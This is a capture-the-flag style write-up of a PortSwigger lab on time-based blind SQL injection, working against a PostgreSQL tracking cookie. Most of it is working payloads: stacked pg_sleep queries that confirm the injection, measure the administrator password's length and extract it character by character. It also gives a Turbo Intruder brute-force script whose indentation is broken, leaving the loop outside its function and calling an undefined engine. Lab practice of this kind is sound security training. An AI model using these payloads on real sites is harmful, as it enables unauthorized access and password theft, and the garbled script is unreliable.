

# Lab: Blind SQL injection with time delays and information retrieval
url: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

# Overview:
- The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

- To solve the lab, log in as the administrator user. 

# Analysis

Cookie: TrackingId=PHsLpeyuzM3DLeCa'%3b SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- <delayed-OK>

Cookie: TrackingId=PHsLpeyuzM3DLeCa'%3b SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator')>1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
<check length(password)>
-> 20 characters (a-z,0-9)

Cookie: TrackingId=PHsLpeyuzM3DLeCa'%3b SELECT CASE WHEN ((SELECT COUNT(username) FROM users WHERE username='administrator' AND SUBSTRING(password,1,1)>'0')= 1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- (check every single character of password)<delayed-OK>
-> Use turbo intruder to find password
Note: the valid character will response code status 0 due to delays

# Turbo Intruder Script:
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=3,
        requestsPerConnection=10,
        pipeline=False
    )

passwords = "qwertyuiopasdfghjklzxcvbnm1234567890"

for loop in range(1,21):
    for pwd in passwords:
        engine.queue(target.req, [loop, pwd])

def handleResponse(req, interesting):
    table.add(req)

